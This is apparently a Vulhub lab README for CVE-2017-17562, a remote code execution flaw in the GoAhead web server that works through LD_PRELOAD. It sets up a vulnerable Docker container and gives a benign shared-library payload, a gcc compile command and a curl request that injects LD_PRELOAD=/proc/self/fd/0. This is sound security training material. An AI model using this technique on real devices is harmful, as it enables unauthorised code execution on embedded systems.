

# GoAhead Web Server HTTPd 'LD_PRELOAD' Remote Code Execution (CVE-2017-17562)

[中文版本(Chinese version)](README.zh-cn.md)

Embedthis GoAhead is the world's most popular, tiny embedded web server, which is deployed in hundreds of millions of devices and is ideal for the smallest of embedded devices.

GoAhead before 3.6.5 allows remote code execution if CGI is enabled and a CGI program is dynamically linked. This is a result of initializing the environment of forked CGI scripts using untrusted HTTP request parameters in the cgiHandler function in `cgi.c`. When combined with the glibc dynamic linker, this behaviour can be abused for remote code execution using special parameter names such as `LD_PRELOAD`. An attacker can POST their shared object payload in the body of the request, and reference it using /proc/self/fd/0.

References:

 - https://www.elttam.com.au/blog/goahead/
 - https://www.exploit-db.com/exploits/43360
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

## Vulnerable environment

Execute following commands to start a GoAhead 3.6.4:

```
docker-compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -shared -fPIC ./payload.c -o payload.so
```

Use curl to trigger the attack:

```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

The response header `Hello: world!` is printed to indicate that the code has been executed:


A reverse shell is got:


